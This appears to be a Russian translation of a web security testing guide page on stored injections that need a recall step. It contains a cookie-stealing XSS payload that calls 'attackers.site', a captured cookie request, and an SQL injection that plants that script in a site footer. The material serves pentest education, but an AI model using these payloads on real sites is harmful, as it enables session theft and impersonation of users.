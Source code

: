## Задачи тестирования

- Выявить хранимые инъекции, которым требуется этап отзыва.
- Понять, в чём заключается этот этап отзыва.
- Установить прослушиватели (listeners) или активировать этап отзыва, если это возможно.

## Как тестировать

### Тестирование методом чёрного ящика

#### Пример с загрузкой файла

Посмотрите какой тип контента разрешён для загрузки в web-приложение, и результирующий URL для загруженного файла. Загрузите файл, который будет эксплуатировать компонент на локальной рабочей станции пользователя при просмотре или загрузке. Отправьте своей жертве электронное письмо или другой вид уведомления, чтобы побудить его/её просмотреть страницу. Ожидаемый результат — эксплойт сработает, когда пользователь будет просматривать результирующую страницу или загрузит и запустит файл с доверенного сайта.

#### Пример с XSS на доске объявлений

1. Введите код JavaScript в качестве значения для уязвимого поля, например `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`
2. Направьте пользователей на просмотр уязвимой страницы или дождитесь, пока пользователи ее просмотрят. Установите «прослушиватель» на хосте `attackers.site`, прослушивающий все входящие подключения.
3. Когда пользователи просматривают уязвимую страницу, запрос, содержащий их cookie  (`document.cookie` включается в состав запрашиваемого URL), и отправляется на хост `attackers.site`, например: `GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE; HTTP/1.1`
4. Используйте эти cookie, чтобы выдавать себя за пользователей на уязвимом сайте.

#### Пример SQL-инъекции

Обычно в этом наборе примеров используются XSS-атаки посредством эксплуатации SQL-инъекций. Первое, что нужно проверить, — есть ли на целевом сайте уязвимость SQL-инъекций. Это описано в [Тестировании SQL-инъекций](05-Testing_for_SQL_Injection.md). Для каждой уязвимости SQL-инъекции существует базовый набор ограничений, описывающих тип запросов, которые разрешено выполнять злоумышленнику/пентестеру.

Затем тестировщик должен сопоставить разработанные им XSS-атаки с записями, которые ему разрешено вставлять.

Аналогичным образом, как и в предыдущем примере XSS, используйте поле web-страницы, уязвимое для SQL-инъекций, чтобы изменить значение в базе данных, которое будет использоваться приложением в качестве входных данных для отображения на сайте без надлежащей фильтрации (сочетание SQL-инъекции и XSS). Например, предположим, что в базе данных есть таблица `footer` со всеми нижними колонтитулами для страниц web-сайта, включая поле `notice` с юридическим уведомлением, которое появляется внизу каждой web-страницы. Вы можете использовать следующий запрос, чтобы вставить код JavaScript в поле `notice` таблицы `footer`.

```sql
SELECT field1, field2, field3
FROM table_x
WHERE field2 = 'x';
   UPDATE footer
   SET notice = 'Copyright 1999-2030%20
       <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
   WHERE notice = 'Copyright 1999-2030';
```

